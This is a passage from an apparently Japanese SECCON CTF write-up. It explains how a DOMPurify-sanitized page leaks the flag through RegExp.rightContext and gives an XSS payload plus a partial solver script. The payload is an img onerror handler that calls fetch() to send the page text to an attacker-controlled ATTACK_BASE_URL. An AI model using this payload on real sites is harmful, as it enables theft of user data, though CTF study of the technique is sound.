 なお、`RegExp.input`には、例えば
```javascript
document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["input"]
```
でアクセスできます。

ところで、DOMPurifyが文字列をどのようにsanitizeしているのかの処理を確認すると、いくつかの箇所で正規表現が使われていることがわかります:

- 例: https://github.com/cure53/DOMPurify/blob/2.4.0/src/purify.js#L957

実際に実験すると:
```javascript
> DOMPurify.sanitize('x<script><SECCON{xxx}')
'x'
> RegExp.input
'<SECCON{xxx}'
> RegExp.rightContext
'ECCON{xxx}'
> document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"]
'ECCON{xxx}'
```
のようになって、これ挙動は使えそうです。

#### Step 3: just a XSS puzzle game!

以上のことを踏まえた上で、パズルゲームの要領でがんばるとフラグが手に入ります。

フラグが手に入るURLの構成例:
```javascript
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;
```

`ECCON{real_flag} SECCON{REDACTED}">`の文字列が`ATTACK_BASE_URL`に投げられます。
どうしてこうなるのかは、自分の手で確かめてください！

### Solver

```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;

  const res = await (
```

[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。